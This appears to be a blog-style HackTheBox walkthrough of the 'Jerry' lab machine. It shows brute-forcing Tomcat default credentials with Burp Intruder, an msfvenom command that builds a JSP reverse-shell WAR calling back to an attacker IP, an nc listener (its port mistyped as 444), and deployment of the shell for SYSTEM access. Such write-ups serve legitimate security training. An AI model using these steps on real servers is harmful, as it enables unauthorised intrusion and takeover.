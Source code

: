 ```yaml
---
title: 'HackTheBox - Jerry'
date: '2021-10-07 12:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/jerry/jerry.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```


Our first step is to run nmap. Only port ```8080``` is open. The alternative to port ```80```. There's some information disclosure as some service information is included.

![nmap-scan-results](/assets/img/jerry/jerry-nmap.png)

We navigate to "http://10.10.10.95:8080/" and find a default web page. I wonder if we can gain access to the web server with default credentials?

![default-apache-page](/assets/img/jerry/apache-default.png)

We search Google for "tomcat default credentials". THe first result is "https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown". We will use this list to bruteforce our way in. There are tools to automate this process but we're going to it manually.

![default-tomcat-credentails](/assets/img/jerry/git-default-creds.png)

Copy all the default creds into a text file. I'm using Mousepad. Use Find and Replace to search for the space ("  "), replace it with a colon, then select replace all and hit save. I saved mine as tomcat.txt

![find-and-replace](/assets/img/jerry/find&replace.png)

Now in your browser, go to Preferences > Settings (bottom of pages). In connection settings select manual proxy. CHange the proxy to ```127.0.0.1``` and Port to ```8080```. Select "Also use this proxy for FTP and HTTPS". And press okay.

![change-browser-proxy-settings](/assets/img/jerry/browser-proxy-settings.png)

Fire up Burp Suite, select "Temporary project" and "Next" > "Use Burp defaults" and select "Start Burp".

![start-burp](/assets/img/jerry/start-burp.png)

We're going to write a bash script that we'll use to bruteforce our way into the web server.
```bash
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```
This is going iterate through each line in the .txt file, convert it into base64 and print it out. Copy the base64 list.

![convert-to-base64](/assets/img/jerry/base64.png)

Next we return to the Apache Tomcat page and select "Manager App". Nothing happens because Burp has intercepted the request. So we navigate to Burp suite, look for the Proxy tab and "Forward" the request.

![first-burp-request](/assets/img/jerry/burp-1st-request.png)

We go back to the Apache web page and select "OK" in the pop up, without entering any credentials. Back in burpe, under the proxy tab we right click on the request in the raw text area and select "Send to Intruder".

![burp-intruder](/assets/img/jerry/send-to-intruder.png)

Navigate to the "Intruder" tab, then to "Positions". We highlight our payload paramater area and select the "Add" button. The highlighted area is what we will be replacing with our base64 list.

![set-payload-parameter](/assets/img/jerry/burp-payload-parameter.png)

Now select the payloads tab, and under "Payload Options", paste the base64 list we copied. Make sure to deselect the "URL-encode these characters" option. Select "Start Attack".

![paste-base64](/assets/img/jerry/burp-base-paste.png)

Search for the the result with the "200" status code. Those are the correct credentials. To decode it, select the correct payload and below where it shows the request, highlight the base64 string. Right click and select "Send to Decoder". Go to the decoder and select decode as bas64. The output should be "tomcat:s3cret".

![decode-credentials](/assets/img/jerry/creds-decode.png)

We can now set our browser proxy settings back to system proxy settings.

Now that we have access to the web server, we want to upload a malicious file. The malicious file will be a reverse shell that we're going to generate using ```msfvenom```.

The payload we want can be found here "https://mytrickstuff.com/hacks-and-tricks/msfvenom-cheat-sheet-one-page-one-code/".
```msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war```

![cheatsheet](/assets/img/jerry/cheatsheet.png)

We can paste the snippet into the terminal. Adding your ```tun0``` IP as your LHOST, and assigning LPORT to ```4444```. ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f war > shell.war```. Then we start a listener on the same port for our reverse shell to connect to with ```nc -nvlp 444```.

![generate-file-and-start-listener](/assets/img/jerry/generate&listener.png)

In the Apache mamager scroll down to where you see "War file to deploy". Browse and select the WAR file we just generated and select "Deploy". It should now be deployed under Applications in the manager dashboard.

![upload-war-file](/assets/img/jerry/upload-war.png)

Select "/shell" under applications. This initiates the shell and talks back to our listener.

![trigger-shell](/assets/img/jerry/applications-shell.png)

We return to our terminal and see we have a shell. We run whoami and see we have authority\system. Congratulations, you have owned this box!

![system-owned](/assets/img/jerry/owned.png)

Now locate the flags to fully own this system. 

![locate-flags](/assets/img/jerry/flags.png)















